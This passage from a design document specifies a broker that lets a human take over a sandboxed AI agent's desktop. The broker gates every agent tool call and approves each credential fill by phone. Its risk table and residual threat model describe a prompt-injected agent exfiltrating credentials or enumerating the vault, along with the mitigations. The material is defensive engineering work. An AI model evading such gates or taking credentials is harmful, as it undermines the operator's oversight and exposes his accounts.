      - `cu-vault-fill` POSTs `{ requestId, fillNonce, fields: { ... } }` over Tailnet WireGuard to `cu-sandbox`'s `POST /api/cu/fill-execute` (which forwards to `cu-broker` over `control.sock`), then immediately exits (discarding env).
      - `cu-broker` validates `fillNonce`, confirms the active lease `epoch` hasn't changed, **enters `paused_for_fill`** (blocking all agent MCP calls while filling), re-reads `get_browser_state` to confirm the tab did **not** navigate to a different origin while Jacob was tapping his phone, and invokes `browser_type` directly over `cua-driver`'s `backend.sock` (Unix socket JSON-RPC — **never CLI argv**, so secrets never appear in `ps` or logs!).
      - If `submit: true`, `cu-broker` presses Enter (or clicks the named submit ref) before leaving `paused_for_fill`, so the password input is submitted/cleared before the agent takes its next snapshot.
      - `cu-broker` returns only `{ ok: true, filled: ["username", "password"], submitted: true, origin: "https://portal.acme.com" }` to the agent and writes a secret-free audit entry.

3. **Transport note on the last hop (`beelink` → `rpi5-openclaw` → `cu-sandbox`):**
   - `beelink` ↔ `rpi5-openclaw` is WireGuard-encrypted (Tailscale). `rpi5-openclaw` ↔ `cu-sandbox` traverses the host-only `virbr203` virtual bridge in the Pi's kernel memory (never touches the LAN wire). Even so, `cu-broker` can include an ephemeral X25519 public key in each `fill_request` so `cu-vault-fill` seals the POST payload end-to-end to `cu-broker` (~20 lines of Node `crypto` AES-256-GCM + X25519), making the secret opaque even to guest `pi-dish` HTTP logs/middleware.

### 3.4 What the Guest Must Hold vs Must Not Hold

| Must hold (inside `cu-sandbox`) | Must NOT hold (inside `cu-sandbox`) |
|---|---|
| Chrome profile `/srv/profile/chrome` (signed-in cookies for chosen low/medium-risk sites; Chrome Sync OFF) | Bitwarden master password, `BW_SESSION`, `bw` CLI, or `pi-dish-vault-listener` |
| Dedicated, revocable OpenCode Go (or Gemini) API key (`0600`) | Jacob's personal OpenCode key, ChatGPT OAuth, Anthropic Max OAuth, or `omp-auth-broker` token |
| `~/.config/cua/token` (`0600`, read only by `cua-spacesd` & `cu-broker`, never leaves guest) | `aac` pairing keys (under recommended Option 1; if Option 2 fallback is chosen, only a single `allow-folder`-restricted pairing key) |
| `cu-broker` runtime lease state (`$XDG_RUNTIME_DIR`) and sanitized `audit.ndjson` | Fleet SSH private keys, Tailscale node key, Cloudflare tokens, or `beelink` `pi-dish` tokens |

**Honest residual threat model:** As long as `jyarwood` in `cu-sandbox` has passwordless sudo (`cu-guest` / `README.md`), a full root compromise of the guest could inspect `cu-broker` memory or Chrome's profile *after* Jacob approves a specific fill. The defenses that hold even against guest root compromise are: (1) `cu_guard` prevents lateral movement to LAN/tailnet/fleet; (2) `allowFolder: "cu-sandbox"` ensures only explicitly opted-in credentials can ever be requested; (3) per-use phone approval with broker-observed origin gates every single release; (4) banks/brokerages/recovery accounts stay out of both Chrome and the `cu-sandbox` Bitwarden folder. Later hardening (Slice 4b) can run `opencode` under an unprivileged `cu-agent` user with no sudo and no direct read access to `/srv/profile`, `backend.sock`, or `~/.config/cua/token`.

---

## 4. Question 3: The One-Session Lock & Guest Broker (`cu-broker`)

### 4.1 Evaluation: Should the Lock Live on `cu-sandbox` Instead of `pi-dish`?

**Yes — unequivocally.** Putting the lock in a dedicated guest-side broker (`cu-broker.service`) rather than in `pi-dish` is the right architecture for four concrete reasons:

1. **The contested resource is local to `cu-sandbox`:** One Xvfb `:1` display, one `/srv/profile/chrome` instance, one `cua-driver.service`, and one `cua-spacesd` input stream.
2. **Callers exist outside `pi-dish`:** An interactive `opencode` in web terminal or SSH, a human opening an SSH-tunnelled viewer via `cu-viewer-ticket`, a `pi-dish`-managed worker spawned by a bot, or a `cu-fill` script can all touch the screen. A `pi-dish`-only lock is blind to terminal `opencode` and SSH viewers.
3. **Mechanical enforcement at the driver chokepoint:** `pi-dish` is not on the data path of MCP tool calls. A lock inside `cu-broker` in front of `cua-driver` enforces exclusivity on **every single tool call**, stopping a runaway or unmanaged agent the instant Jacob clicks Take Over — even before `abort()` lands.
4. **Lifecycle independence:** `pi-dish-update.timer` restarts `pi-dish` automatically on every `main` deploy. Keeping lease ownership in `cu-broker.service` prevents deployments or hub restarts from dropping active leases or stranding Chrome.

*(Clarification on "host": the broker runs inside the `cu-sandbox` guest OS — the computer-use host — NOT on the `rpi5-openclaw` KVM hypervisor, so the hypervisor never accepts guest IPC or crosses the VM boundary.)*

### 4.2 Lease & Broker Architecture

- **Process:** `cu-broker.service` (systemd user unit in `cu-sandbox`, `Requires=cua-driver.service cua-spacesd.service`, `After=cu-chrome.service cua-driver.service cua-spacesd.service`). Implemented as a small, zero-dependency Python 3 or Node 22 service managed by `cu_guest` in `fleet-config`.
- **Sockets & state:**
  - `cua-driver.service` listens on a private backend socket: `~/.cache/cua-driver/backend.sock` (not the default client path).
  - `cu-broker.service` listens on `$XDG_RUNTIME_DIR/cu-broker/control.sock` (`0600`, HTTP/1.1 JSON + SSE over Unix socket).
  - State persisted atomically to `$XDG_RUNTIME_DIR/cu-broker/lease.json` (on tmpfs: automatically clean on reboot, survives `cu-broker` restarts with PID/TTL revalidation).
  - `cu-broker` is the **sole reader** of `~/.config/cua/token`; `/usr/local/bin/cu-viewer-ticket` becomes a thin CLI client of `cu-broker` (preserving the exact existing CLI flags!).
  - A small CLI `/usr/local/bin/cu-seat` (`status | acquire | takeover | release | audit`) lets SSH/terminal users inspect or release the seat cleanly.

#### State Machine



#### Separating Session Identity from Mutable Seat `epoch` (Key Design Detail)

A naive design bakes a one-shot `leaseToken` into `opencode`'s startup environment — which permanently breaks `opencode`'s long-lived MCP connection the first time Jacob takes over and hands back!

Instead, separate **identity** from **current seat ownership**:

- At session launch, the relay (or terminal `cua-driver-mcp` auto-acquire) registers a **per-session identity** `(sessionId, sessionSecret)` with `cu-broker` (bound to its `(pid, pidStartTime)` from `/proc/<pid>/stat`).
- `cu-broker` tracks which `sessionId` currently holds the seat at monotonic `epoch`.
- On **Take Over**, `cu-broker` bumps `epoch`, reassigns the seat to `human`, records `preempted = { sessionId, label }`, and signals `cua-driver-mcp` to **terminate its inner `cua-driver mcp` child** while keeping the outer stdio pipe to `opencode` open.
- While `human` holds the seat, any MCP `tools/call` from `opencode` hits `POST /v1/gate/authorize` and immediately gets an MCP tool error (`isError: true`, `"LEASE_PREEMPTED: Jacob took over the desktop. Stop acting and wait for hand-back."`).
- On **Hand Back & Resume**, `cu-broker` bumps `epoch` and restores seat ownership to `preempted.sessionId` (with a 30 s re-entry grace window so queued callers cannot steal it). Guest `pi-dish` sends the resume prompt to `opencode`. On its next `tools/call`, `cua-driver-mcp` sees `sessionId` owns the seat again and lazily spawns a fresh inner `cua-driver mcp` child — **zero lost conversation context and zero harness restart.**

### 4.3 Broker API (`$XDG_RUNTIME_DIR/cu-broker/control.sock`)

| Method & Path | Caller | Semantics |
|---|---|---|
| `GET /v1/status` | `pi-dish`, `cu-seat` | Current `state`, `epoch`, active `lease` (no secrets), `preempted`, `queue`, and service health (`xvfb`, `chrome`, `driver`, `spacesd`, `chromeAttached`). |
| `GET /v1/events` | `pi-dish`, `cua-driver-mcp` | SSE stream of `lease_changed`, `preempted`, `seat_idle`, `fill_request`, `fill_completed`, `attention_needed`. |
| `POST /v1/lease/acquire` | `pi-dish` spawn/relay, terminal `cua-driver-mcp` | `{ holderKind: "agent", sessionId, label, requestedBy?, pid, pidStartTime, ttlSec? }` → `200 { lease, sessionSecret, epoch }` or `409 { code: "seat_busy", state, lease }`. |
| `POST /v1/lease/heartbeat` | Relay, `cua-driver-mcp`, viewer | `{ sessionId, sessionSecret }` (or human `leaseId`/`leaseToken`) → `200 { expiresAt, epoch }` or `409 { code: "lease_lost", reason, epoch }`. |
| `POST /v1/lease/takeover` | `pi-dish` Take Over, interactive `cu-viewer-ticket` | `{ holderId, label, reason?, detachDriver?: bool, force?: bool, ttlSec? }`. Always preempts `agent`; returns `200 { lease, leaseToken, epoch, preempted, viewerPath }`. Against another `human` holder, `409` unless `force: true`. |
| `POST /v1/lease/release` | Relay, viewer Hand Back, `cu-seat` | `{ leaseId|sessionId, token, handBack?: bool }`. Releases seat; if `handBack: true` and `preempted` exists, restores `agent` lease reservation and returns `{ handedBackTo }`. |
| `POST /v1/viewer/ticket` | `pi-dish`, `cu-viewer-ticket` | `{ mode: "view-only" \| "interactive", leaseId?, leaseToken?, ttlSec? }`. `view-only` always succeeds without a lease; `interactive` requires valid current `human` lease token. |
| `POST /v1/gate/authorize` | `cua-driver-mcp` (before every `tools/call`) | `{ sessionId, sessionSecret, toolName, argsSummary }` → `200 { allowed: true, epoch }` (blocks up to 5 s if `paused_for_fill`) or `403 { allowed: false, code: "LEASE_PREEMPTED" \| "LEASE_EXPIRED" \| "SEAT_BUSY", holder }`. Appends sanitized audit row. |
| `POST /v1/fill/request` | `cua-driver-mcp` (`vault_fill` tool) | Checks active agent lease, reads real tab URL from `cua-driver`, creates `fillNonce` + ephemeral X25519 keypair, emits `fill_request` SSE event, blocks until `fill/execute` or timeout. |
| `POST /v1/fill/execute` | Guest `pi-dish` (from hub `cu-vault-fill`) | Verifies `fillNonce` + `epoch`, enters `paused_for_fill`, re-checks tab origin, calls `cua-driver` `browser_type` (+ optional submit) over `backend.sock`, exits `paused_for_fill`, unblocks `fill/request`. |
| `GET /v1/audit` | `pi-dish`, `cu-seat` | Recent sanitized audit records (`?sessionId=&limit=`). |
| `POST /v1/queue` / `DELETE /v1/queue/:id` | `pi-dish` (Slice 4) | Enqueue/cancel a waiting bot spawn without launching a harness process yet. |

### 4.4 TTLs, Heartbeats & Crash Recovery

| Holder | Default TTL | Heartbeat interval | Idle / crash handling | Hard cap |
|---|---|---|---|---|
| **Agent (managed relay)** | 90 s | 20 s (relay + implicit refresh on authorized tool calls) | Dead `(pid, startTime)` reaped in **≤5 s**; idle session (no `turnInProgress` and no tool calls for 5 min) auto-yields seat unless `waiting_for_human` | 60 min (renewable by operator) |
| **Agent (terminal `opencode`)** | 90 s | 20 s (background thread inside `cua-driver-mcp`) | Dead parent `opencode` PID reaped in **≤5 s**; auto-releases on stdio EOF | 60 min |
| **Human (`pi-dish` viewer)** | 10 min | 60 s while viewer tab is visible | Closing tab without Hand Back auto-releases after TTL (never strands bots overnight) | 4 h (1-tap extend) |
| **Human (SSH `cu-viewer-ticket`)** | Matches `--hours` (default 2 h, max 8 h) | None (manual CLI) | Prints reminder to run `cu-seat release` when finished; `pi-dish` UI can `force` take over or release | 8 h |

### 4.5 What Happens to `cua-driver` & MCP on Lease Loss / Google Sign-In

1. **Immediate tool fence:** `cu-broker` bumps `epoch` and emits `preempted` on `/v1/events`. `cua-driver-mcp` immediately sends `SIGTERM` (then `SIGKILL` after 500 ms) to its inner `cua-driver mcp` child and rejects any pending or new `tools/call` with `LEASE_PREEMPTED`.
2. **Managed agent abort:** Guest `pi-dish` receives `preempted` on `/v1/events` and calls `abort()` on the displaced managed session so the LLM stops burning turns.
3. **Optional Chrome driver detach (`detachDriver: true`):** While `cua-driver.service` stays up across normal take-overs (fast hand-back), Chrome displays `"Chrome is being controlled by automated test software"` while CDP is attached, which breaks Google sign-in. When Jacob chooses **"Take over & detach driver"** (e.g., to sign in to Google), `cu-broker` restarts `cua-driver.service` (`systemctl --user restart cua-driver.service`, or calls a driver detach RPC if 0.61.3 exposes one — verify in Slice 0) so Chrome drops the automation banner cleanly before Jacob types his credentials.
4. **Revoking interactive viewer input on Hand Back:** Because `cua-spacesd` viewer tickets cannot be individually revoked without rotating `~/.config/cua/token`, guest `pi-dish`'s viewer proxy binds each interactive `/api/cu/viewer/*` WebSocket/input session to the active `human` lease `epoch`: the moment `release` fires, guest `pi-dish` closes all interactive `/media` WebSockets for the old epoch and the browser reloads the iframe with a `view-only` ticket. (Interactive tickets also use a short 30-minute TTL as belt-and-suspenders.)

### 4.6 How `pi-dish` Reads and Acquires the Lease

- **Guest `pi-dish` (`src/core/cu-handlers.ts`):** Activated only when `$PI_DISH_CU_BROKER_SOCKET` (or `$XDG_RUNTIME_DIR/cu-broker/control.sock`) exists; advertises `capabilities.computerUse = true` in `GET /api/host`. Exposes `/api/cu/{status,stream,takeover,release,heartbeat,viewer/ticket,viewer/*,audit,fill-execute}` and hooks `session-operations.ts` so `POST /api/sessions/new` on a `computerUse` host acquires an agent lease before launch.
- **Hub `pi-dish` (`beelink`):** Needs zero lease state of its own! It proxies `/hosts/cu-sandbox/api/cu/*` (HTTP + SSE + WS upgrade) with the `pi.local` front-door gate, renders the viewer/seat UI, and runs the vault-fill subscriber when `cu-sandbox` is reachable.

---

## 5. Incremental Build Order

### Slice 0 — Pre-Flight Verification (Read-Only Checks + Manual Key Hygiene, ~1 hour)
Before writing feature code, verify four small empirical facts on `cu-sandbox` and fix key hygiene:
1. `curl -s http://127.0.0.1:3211/viewer/` (and its main JS bundle) on `cu-sandbox`: check whether `/viewer/` calls `/cua.env.v1.*` and `/media` relative to origin root or relative to `/viewer/`, and whether it sends `authorization` vs `x-cua-env-authorization`.
2. Probe `opencode acp --cwd ~/work` on `cu-sandbox` (`initialize` → `session/new` → `session/prompt` → `session/cancel` → `session/load`): confirm ACP v1 methods and check for stray non-JSON stdout lines.
3. Check `cua-driver --help` / `cua-driver serve --help` for `--socket` path override and any explicit `detach` / `disconnect` command (versus restarting `cua-driver.service`).
4. Replace `~/.config/opencode/opencode-go.key` with a dedicated revocable key, and decide the first low-risk accounts to sign in.

### Slice 1 — Smallest Useful First Slice: `cu-broker` + Embedded Viewer & Take-Over
**Value delivered immediately:** Jacob can watch `cu-sandbox` live and take over to sign in to sites (starting with Shef in a later slice) directly inside `dish.perfectlyfried.dev` from phone or desktop (no SSH tunnels), and the one-session lock works mechanically across `omp`/`opencode` and the viewer.
- **Fleet (`fleet-config`, DONE):** `cu-broker.service` (`control.sock` + `agent.sock`, lease state, `cua-driver` private `backend.sock`, broker-owned MCP worker, `cua-driver-mcp` proxy over `agent.sock`, `cu-viewer-ticket` → `cu-broker`, `cu-seat` CLI), native ARM64 `omp` install + `~/.omp/agent/{mcp.json,config.yml}` + `~/AGENTS.md`, and `PI_DISH_OMP_COMMAND` + `PI_DISH_CU_BROKER_SOCKET` in guest `fleet.env`. (Per Decision 1, no `aeor` Caddy `pi.local` block.)
- **pi-dish (`pi-dish` repo, DONE on `feat/cu-viewer`):** `src/core/cu-broker.ts` (Unix-socket HTTP/1.1 JSON + SSE broker client gated strictly on `PI_DISH_CU_BROKER_SOCKET` existing as a socket), `src/core/cu-handlers.ts` (guest `/api/cu/{status,stream,takeover,heartbeat,release,viewer/ticket,audit}` with structured `409` busy/holder replies + `/api/cu/spaces/*` raw HTTP/gRPC-Web/WS proxy to `127.0.0.1:3211` mounted before `compression` and `jsonBody`, strict bearer auth, traversal-proof path sanitizer, allowlisted request headers, `frame-ancestors 'none'` → `'self'` CSP rewrite, `X-Frame-Options: DENY` → `SAMEORIGIN`, static `./cu-fetch-creds.js` injection, `Sec-WebSocket-Protocol` `rcdp.v2` forwarding, 30 s WS keepalive pings, and immediate interactive `/media` WS + gRPC-Web revocation on human epoch end), `src/core/access-handlers.ts` (`capabilities.computerUse`, strict `requireBearer`/`bearerUpgradeAuthorized`, `/cu/stream` stream-ticket matching), `src/core/relay-handlers.ts` (WS upgrade passthrough for `/hosts/:name/api/cu/spaces/*` with path validation and `Sec-WebSocket-Protocol` forwarding), and `src/browser/cu-viewer-data.ts` + `src/browser/cu-viewer.ts` + `src/browser/fleet-view.ts` + `src/browser/app.ts` (phone-friendly `390×844` and desktop main-pane Desktop takeover reachable from Fleet cards and `#sessionChips`, live lease holder & remaining-time countdown, View-only default, Take Over / Detach driver / Hand Back / Release Seat, clear `409` busy banner with holder & Force Take Over, and HTML/JS version-skew resilience).
- **Acceptance:** Open Desktop from Fleet card on `dish.perfectlyfried.dev` (phone + desktop) → live video streams view-only; run `omp` → seat shows `agent` → click Take Over → `omp`'s next Cua tool call immediately fails `LEASE_PREEMPTED` → Jacob types in Chrome → Hand Back returns to view-only and `omp` can act again.

### Slice 2 — Lease-Aware Managed `omp` Sessions & Bot Framing on `cu-sandbox`
**Value delivered:** Bots (`PA`, `Chief of Staff`) and Jacob can spawn, stream, search, abort, and resume `cu-sandbox` `omp` sessions through `pi-dish` with mechanical seat coordination (no new ACP harness needed — `omp` already runs via `pi-dish-bridge-omp`).
- **pi-dish repo:** Hook `session-operations.ts` so `POST /api/sessions/new` on a `computerUse` host acquires a `cu-broker` agent lease before launch (returning `409 seat_busy` when occupied), injects `CU_BROKER_SESSION_ID`, `CU_BROKER_SESSION_SECRET`, and `CU_BROKER_LABEL` into the `omp` pane env, heartbeats every 20 s (or relies on `cua-driver-mcp` + relay heartbeat), subscribes to `cu-broker` `/v1/events` so `preempted` triggers `session.abort()` and `hand_back` delivers a resume prompt, and releases on session close; add untrusted-data framing to `bot-runtime.ts` worker reports from `computerUse` hosts.
- **Operator / Fleet (`fleet-config`, pending key sign-off):** Deliver the approved personal model key to `cu-sandbox` (age-encrypted single-provider file + `~/.omp/agent/models.yml`, without `omp-auth-broker` or Tailscale).
- **Acceptance:** `pi-dish-sessions spawn --host cu-sandbox --harness omp --cwd ~/work --prompt "..."` runs end-to-end, streams in UI, appears in fleet search, aborts immediately on Take Over, and resumes cleanly on Hand Back; a second concurrent spawn returns `409 seat_busy`.

### Slice 3 — Scoped Bitwarden Vault Fill (`pi-dish-vault` → Chrome)
**Value delivered:** Agents log into opted-in accounts (username, password, live TOTP) with per-use phone approval and origin verification, without secrets ever touching model context, transcripts, argv, or guest config.
- **pi-dish repo:**
  - `vault-listener/src/`: per-device policy (`allowFolder`, `allowFields`, `allowCreate`, `allowWindow`), `targetOrigin` + URI-match verification, durable `vault-audit.ndjson`.
  - `src/core/vault-approvals.ts` + `src/browser/vault-approvals*.ts`: display `targetOrigin` + URI-match badge on phone push/card; enforce `allowWindow: false`.
  - Hub-side fill coordinator (`src/core/cu-vault-bridge.ts` + ephemeral `cu-vault-fill` child invoked via `aac run` under `XDG_CONFIG_HOME=~/.pi/dish/cu-aac`) subscribing to `cu-sandbox`'s `/api/cu/stream` and sealing one-shot fills to `POST /api/cu/fill-execute`.
- **Fleet (`fleet-config`):** Add `vault_search` / `vault_fill` MCP tools to `cua-driver-mcp` and `fill/request` + `fill/execute` (`paused_for_fill` + `backend.sock` `browser_type`) to `cu-broker`; create `cu-sandbox` Bitwarden folder & pair `cu-sandbox-proxy` on `beelink`.
- **Acceptance:** Agent runs `vault_search` (sees ONLY items in `cu-sandbox` folder), calls `vault_fill` on a test login form → phone push shows `cu-sandbox`, item name, verified origin, no 15m button → tap Approve → field fills and submits → zero secret bytes in transcript, `ps`, stdout, or `audit.ndjson`; mismatched origin is refused before phone push.

### Slice 4 — PA Bot, Queueing, Attention Push & Optional Hardening
**Value delivered:** Multi-bot contention queues smoothly, CAPTCHA/2FA pauses ping Jacob's phone with a direct link to the Desktop viewer, and audit/isolation tighten.
- **pi-dish repo:** FIFO queue endpoints + bot-compatible queued spawns; `cu-attention` push notification kind deep-linking to Desktop viewer; Audit tab/drawer in the Desktop takeover reading `/api/cu/audit`.
- **Fleet (`fleet-config`):** Optional `virbr203` `dnsmasq` query log on `rpi5-openclaw`; optional Slice 4b guest privilege separation (run `omp` under unprivileged `cu-agent` without sudo while `cu-broker`/`cua-driver`/`cu-chrome` stay under `cu-desktop` so the MCP gate and Chrome profile become kernel-enforced).
- **Operator:** Create `Personal` (PA) bot under `Chief of Staff` with `cu-sandbox` as its computer-use place.

---

## 6. Ownership Split: `pi-dish` Repo vs `fleet-config` vs Operator

| Owner | Scope & Deliverables |
|---|---|
| **`pi-dish` repo** (owned by `pi-dish` bot) | • `src/core/cu-handlers.ts` (guest broker HTTP/SSE/viewer/fill adapter, `/api/cu/spaces/*` proxy with CSP `frame-ancestors` rewrite + external `cu-fetch-creds.js` shim, `computerUse` capability)<br>• `src/core/relay-handlers.ts` (WS upgrade proxy for `/hosts/:name/api/cu/spaces/*`, preserving `Sec-WebSocket-Protocol: rcdp.v2`)<br>• `src/browser/cu-viewer.ts`, `src/browser/main-pane.ts`, `src/browser/fleet-view.ts`, `src/browser/app.ts` (Desktop takeover, split view, seat pill, Take Over / Detach Driver / Hand Back / Audit drawer)<br>• `src/core/session-operations.ts` (acquire/heartbeat/release `cu-broker` leases for `omp` spawns on `computerUse` hosts + `409 seat_busy`, `preempted` abort, `hand_back` resume — no new harness needed)<br>• `src/core/bot-runtime.ts` (untrusted-data framing on `computerUse` worker reports; Slice 4 queued spawns)<br>• `vault-listener/src/*`, `src/core/vault-approvals.ts`, `src/browser/vault-approvals*.ts` (per-device `allowFolder`/`allowWindow: false`, `targetOrigin` + URI match, `vault-audit.ndjson`)<br>• `src/core/cu-vault-bridge.ts` + `cu-vault-fill` ephemeral helper on hub<br>• Focused backend + Playwright tests for all new routes, lease races, and viewer UI |
| **`fleet-config` / Ansible** (owned by `Fleet` bot) | • `ansible/roles/cu_guest/`: `cu-broker.service` (`control.sock` + `agent.sock`), `cu-broker`, `cu-seat` CLI, updated `cua-driver.service` (`backend.sock`), updated `cua-driver-mcp` (broker-gated over `agent.sock`; later Slice 3 `vault_search`/`vault_fill`), updated `cu-viewer-ticket` (broker client), native ARM64 `omp` + `~/.omp/agent/{mcp.json,config.yml}` + `~/AGENTS.md` (**Slice 1 deployed**)<br>• `ansible/roles/pi_dish/`: pass `PI_DISH_OMP_COMMAND` and `PI_DISH_CU_BROKER_SOCKET` on `cu-sandbox` in `fleet.env.j2` (**deployed**; no `beelink` `pi.local` gate or `aeor` Caddy change per Decision 1)<br>• `ansible/roles/cu_host/` (Slice 4 optional): `dnsmasq` query logging on `virbr203`; profile backup / audit retention checks<br>• `README.md` runbook updates (**updated** for broker, `cu-seat`, `backend.sock`, `omp`) |
| **Operator** (Jacob, manual) | • Approve personal model key choice & single-file age delivery for `cu-sandbox` (no `omp-auth-broker`, no fleet keys, no Tailscale)<br>• Create Bitwarden folder `cu-sandbox`, move only opted-in low/medium-risk logins into it, and run one-time `pair cu-sandbox-proxy` on `beelink` (`XDG_CONFIG_HOME=~/.pi/dish/cu-aac`) (Slice 3)<br>• Delete leftover Cloudflare Access `hermes` application once a scoped Cloudflare token is bootstrapped<br>• Perform initial site sign-ins through the embedded Desktop viewer (first account: **Shef**; use Take Over + Detach Driver for Google) |

---

## 7. Risks & Recorded Decisions (`rv_2434e9cb5312abe2`)

### Key Risks & Mitigations

| Risk | Severity | Mitigation |
|---|---|---|
| **`cua-spacesd` `/viewer/` behind subpath proxy & Cloudflare Access** | Medium | Verified in Slice 0: `viewer.js` resolves subpaths natively (`Lc`/`Cc`), uses `x-cua-env-authorization` only, and needs (a) `Content-Security-Policy` `frame-ancestors 'none'` → `'self'` rewrite, (b) external same-origin `cu-fetch-creds.js` shim upgrading `credentials: "omit"` → `"same-origin"` for `CF_Authorization`, and (c) `Sec-WebSocket-Protocol: rcdp.v2` passthrough. Keep `x11vnc` + vendored `noVNC` as fallback if needed. |
| **Prompt-injected agent exfiltrates credentials or enumerates vault** | High | Hub-mediated fill keeps `aac` out of the guest completely; `vault-listener` `allowFolder: "cu-sandbox"` hides all other items; `allowWindow: false` forces fresh phone tap; broker-verified origin blocks phishing fills. |
| **Guest `jyarwood` passwordless sudo** weakens in-guest separation | Medium | Accepted in Slices 1–3 (bounded by `cu_guard` + `allowFolder` + phone approval + keeping banks/recovery accounts off the VM); tighten in Slice 4b by splitting `cu-agent` (no sudo) from `cu-desktop`. |
| **5.5 GiB RAM + microSD wear on Pi 5** under Chrome + viewer + `omp` | Low–Med | Verified post-install: `omp` `19.1.1` binary is 243 MiB on disk (32 GiB free), ~312 MiB peak RSS; `cu-broker` is 28 MiB RSS; guest still has 4.3 GiB available RAM + 2.6 GiB zram swap. Broker enforces one active agent at a time; Chrome disk cache capped at 256 MiB; audit log rotated ≤50 MiB. |
| **Google sign-in blocks attached automation** | Medium | Offer **"Take over & detach driver"** (`detachDriver: true`) in the viewer bar (restarts `cua-driver.service` without restarting `cu-broker.service` — verified live). |
| **`cua-driver revoke --all` permanently suspends daemon** | Low | Verified live in Slice 1: `cu-broker` cuts off agent access by killing its sole backend `cua-driver mcp` subprocess and does **not** call `revoke --all`, preserving seamless hand-back. |
| **`cua-spacesd` interactive ticket stays valid briefly after Hand Back** | Low | Guest `pi-dish` proxy enforces active human lease `epoch` on proxied `/media` WS & input calls and tears them down immediately on `release`; interactive tickets use short 30-min TTL. |

### Decisions Recorded (`rv_2434e9cb5312abe2`)

1. **`pi.local` block:** **NO.** Do not change `aeor` Caddy or add a front-door host check on `beelink`.
2. **Guest harness:** **`omp` in the guest** (not an `opencode` ACP harness), installed natively ARM64 (`~/.local/bin/omp`) and run like any other `pi-dish` host.
3. **Model key for the guest:** Jacob's **personal** key (not a new dedicated key, and not `anthropic-api` which is out of credit), without making `cu-sandbox` an `omp` auth-broker client or giving it the broker token, fleet keys, or Tailscale. Delivery proposal awaits user sign-off.
4. **Viewer:** Proxy `cua-spacesd` (fall back to `x11vnc` + vendored `noVNC` only if proxying breaks); **no extra PIN** for now.
5. **Vault fill origin:** **Hub-mediated from `beelink`** (Slice 3).
6. **Guest privilege separation (UID split):** Defer to **Slice 4b**; `cu-broker` (`control.sock` + `agent.sock`) and `cua-driver` (`backend.sock`) are separated from Day 1 so splitting `cu-agent` vs `cu-desktop` later is purely a systemd/permissions change with zero protocol rewrite.
7. **First account to sign in:** **Shef** (later slice).

---

## 8. Implemented Guest Interface for `pi-dish` (Slice 1 Contract)

This section specifies the exact guest-side interface deployed on `cu-sandbox` by `fleet-config` (`cu_guest` + `pi_dish` roles) that the `pi-dish` server (`src/core/cu-handlers.ts`, `src/core/relay-handlers.ts`, `src/core/session-operations.ts`) must call.

### 8.1 Discovery & Environment

Guest `pi-dish` (`~/.config/pi-dish/env`) receives:
- `HOST=10.203.0.10`
- `PI_DISH_OMP_COMMAND=/home/jyarwood/.local/bin/omp`
- `PI_DISH_CU_BROKER_SOCKET=/run/user/1000/cu-broker/control.sock`

Enable guest computer-use routes and advertise `capabilities.computerUse = true` in `GET /api/host` when `PI_DISH_CU_BROKER_SOCKET` is set and the socket exists (fallback check: `${XDG_RUNTIME_DIR}/cu-broker/control.sock`).

### 8.2 Socket & Auth Model

`cu-broker.service` listens on two `0600` Unix domain sockets (HTTP/1.1 JSON + SSE; no TCP listener, no extra auth header needed on `control.sock` beyond OS socket permissions):
- **`control.sock`** (`$XDG_RUNTIME_DIR/cu-broker/control.sock`): **used by guest `pi-dish`**, `cu-seat`, and `cu-viewer-ticket`. Full control surface.
- **`agent.sock`** (`$XDG_RUNTIME_DIR/cu-broker/agent.sock`): used exclusively by `/usr/local/bin/cua-driver-mcp`. Rejects `takeover`, `viewer/ticket`, `audit`, and `force` release with `403`.
- **`backend.sock`** (`~/.cache/cua-driver/backend.sock`): private `cua-driver.service` daemon socket touched **only** by `cu-broker.service`. Neither `pi-dish` nor agents touch it.

Lease mutation endpoints (`heartbeat`, `release`, `attention`, and interactive `viewer/ticket`) authenticate using the opaque per-lease bearer token returned by `acquire` (`sessionSecret` / `token`) or `takeover` (`leaseToken` / `token`). On `control.sock`, `release` and `attention` also accept `force: true` for operator override.

### 8.3 `cu-broker` HTTP/1.1 Endpoints (`control.sock`)

| Method & Path | Request Body / Query | Response (`200` unless noted) |
|---|---|---|
| `GET /v1/health` | — | `{ ok: true, version: 1, state, epoch }` |
| `GET /v1/status` | — | `{ ok: true, version: 1, state, epoch, lease, preempted, defaults, viewer, health }`. `state` is `"idle" \| "agent" \| "waiting_for_human" \| "human"`. `viewer.upstream` is `"http://127.0.0.1:3211"`. `health` reports booleans for `broker`, `spacesd`, `driver`, `xvfb`, `desktop`, `chrome`, `driverWorkerRunning`. |
| `GET /v1/events` | — | SSE stream (`text/event-stream`, `: keepalive` every 20 s). Immediately emits `event: hello` with full status payload, then `lease_changed`, `preempted`, `hand_back`, `seat_idle`, `attention_needed`. |
| `POST /v1/lease/acquire` | `{ holderKind?: "agent", sessionId?, label?, requestedBy?, pid?, pidStartTime?, ttlSec?, hardCapSec? }` | `200 { ok: true, state: "agent", epoch, lease, sessionId, leaseId, sessionSecret, token, heartbeatIntervalSec: 20 }`. Returns `409 { ok: false, code: "seat_busy", state, epoch, lease, message }` if seat is not `idle`. Re-sending the same `sessionId` + `sessionSecret` refreshes idempotently. |
| `POST /v1/lease/heartbeat` | `{ leaseId\|sessionId, leaseToken\|sessionSecret\|token, ttlSec? }` | `200 { ok: true, state, epoch, lease, expiresAt, hardExpiresAt }`. Returns `403` on wrong token, `409 { code: "lease_preempted", canHandBack: true, state: "human", epoch }` if an agent was preempted by a human, or `409 { code: "lease_lost", state, epoch }`. |
| `POST /v1/lease/takeover` | `{ holderId?, label?, reason?, ttlSec?, hardCapSec?, detachDriver?: bool, force?: bool, mintTicket?: bool (default true), ticketTtlSec? }` | Always preempts any `agent` / `waiting_for_human` lease, immediately kills the broker's managed `cua-driver mcp` worker (cutting off in-flight and subsequent tool calls), optionally restarts `cua-driver.service` when `detachDriver: true`, and mints an interactive viewer ticket. Returns `200 { ok: true, state: "human", epoch, lease, leaseId, leaseToken, token, preempted, driverDetached, heartbeatIntervalSec: 60, viewer: { mode: "interactive", ticket, path, ttlSec, expiresAt, upstream } }`. Returns `409 seat_busy` against another active `human` lease unless `force: true`. |
